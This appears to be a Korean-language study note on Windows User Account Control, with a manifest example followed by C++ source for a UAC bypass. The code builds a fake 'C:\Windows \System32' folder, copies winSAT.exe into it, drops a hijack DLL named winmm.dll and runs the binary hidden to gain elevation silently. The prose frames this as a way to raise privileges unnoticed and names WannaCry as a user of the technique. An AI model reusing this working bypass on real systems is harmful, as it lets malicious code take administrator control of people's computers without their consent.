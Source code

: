 # UAC

User Account Control

Windows Vista에서 처음 선보인 보안 기술이다. 관리자가 권한 수준을 높이는 것을 허용할 때 까지 응용프로그램들은 표준 사용자 권한으로 실행된다.

매니페스트파일에서 requestedPrivileges를 requireAdministrator로 설정하면 실행 시 사용자 권한을 요청?묻는? 창이 뜬다.

```XML
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
  <v3:trustInfo xmlns:v3="urn:schemas-microsoft-com:asm.v3">
    <v3:security>
      <v3:requestedPrivileges>
        <v3:requestedExecutionLevel level="highestAvailable" />
      </v3:requestedPrivileges>
    </v3:security>
  </v3:trustInfo>
</assembly>
```

코드는 이와 같다고 한다.

하지만 특정 방법을 사용하면 사용자에게 들키지 않고 몰래 권한 상승이 가능하다.

UAC Bypass라는 이름을 가진 기술이다.

UAC Bypass를 사용한 대표적인 악성코드는 WannaCry가 있다.

또한 윈도우즈 시스템 프로세스는 자체적으로 보안 인증을 통해 UAC Bypass를 지원하고 있으며 이 프로세스에 취약점이 발견될 경우 이를 통해 악성코드가 더 크리티컬한 공격을 감행할 수 있을 것이다.

### UAC Bypass Source

```C++
#include "stdafx.h"
#include <Windows.h>
#include "resource.h"

void DropResource(const wchar_t* rsrcName, const wchar_t* filePath) {
	HMODULE hMod = GetModuleHandle(NULL);
	HRSRC res = FindResource(hMod, MAKEINTRESOURCE(IDR_DATA1), rsrcName);
	DWORD dllSize = SizeofResource(hMod, res);
	void* dllBuff = LoadResource(hMod, res);
	HANDLE hDll = CreateFile(filePath, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, 0, NULL);
	DWORD sizeOut;
	WriteFile(hDll, dllBuff, dllSize, &sizeOut, NULL);
	CloseHandle(hDll);
}

int main()
{
	_SHELLEXECUTEINFOW se = {};
	//Create Mock SystemRoot Directory
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\", 0);
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\System32", 0);
	CopyFileW(L"C:\\Windows\\System32\\winSAT.exe", L"\\\\?\\C:\\Windows \\System32\\winSAT.exe", false);

	//Drop our dll for hijack
	DropResource(L"DATA", L"\\\\?\\C:\\Windows \\System32\\winmm.dll");

	//Execute our winSAT.exe copy from fake trusted directory
	se.cbSize = sizeof(_SHELLEXECUTEINFOW);
	se.lpFile =  L"C:\\Windows \\System32\\winSAT.exe";
	se.lpParameters = L"formal";
	se.nShow = SW_HIDE;
	se.hwnd = NULL;
	se.lpDirectory = NULL;
	ShellExecuteEx(&se);

    	return 0;
}
```